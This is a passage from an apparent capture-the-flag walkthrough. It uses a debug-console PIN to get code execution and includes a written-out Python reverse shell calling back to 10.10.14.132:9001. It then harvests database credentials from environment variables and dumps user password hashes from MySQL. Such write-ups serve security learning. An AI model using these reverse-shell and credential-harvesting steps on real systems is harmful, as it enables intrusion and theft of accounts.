 Now let’s run the script:

```bash
python3 get_pin.py

result:
823-292-062
```

Now we have access to the python console. Let’s create a reverse shell command:

```bash
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.132",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh");
```

Now we have shell. Let’s upgrade our shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that let’s try and see what’s in the superpass’s mysql database. Let’s look at [app.py](http://app.py) and see if there are any config files loaded:

```bash
def load_config():                                                                                                                                        
    config_path = os.getenv("CONFIG_PATH")                                                                                                                
    with open(config_path, 'r') as f:                                                                                                                     
        for k, v in json.load(f).items():                                                                                                                 
            app.config[k] = v 
```

So let’s look at our environment variables:

```bash
env

result:
CONFIG_PATH=/app/config_prod.json

superpassuser:dSA6l7q*yIVs$39Ml6ywvgK
```

Let’s login to mysql

```bash
mysql -u superpassuser -p   #dSA6l7q*yIVs$39Ml6ywvgK

show databases;
use superpass;
show tables;
select * from users;

result:
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
| id | username | hashed_password                                                                                                          |
+----+----------+--------------------------------------------------------------------------------------------------------------------------+
|  1 | 0xdf     | $6$rounds=200000$FRtvqJFfrU7DSyT7$8eGzz8Yk7vTVKudEiFBCL1T7O4bXl0.yJlzN0jp.q0choSIBfMqvxVIjdjzStZUYg6mSRB2Vep0qELyyr0fqF. |
|  2 | corum    | $6$rounds=200000$yRvGjY1MIzQelmMX$9273p66QtJQb9afrbAzugxVFaBhb9lyhp62cirpxJEOfmIlCy/LILzFxsyWj/mZwubzWylr3iaQ13e4zmfFfB1 |
|  9 | bob      | $6$rounds=200000$x4zE7pz5uXVRjCu4$a94iTI2Z7/6oZLnbWoovaG3z3udiieKpkF/FQQvkefsScyNdsiOHZrZAzZCW0x7zYTCBCeZaDoaCCge8b885A1 |
```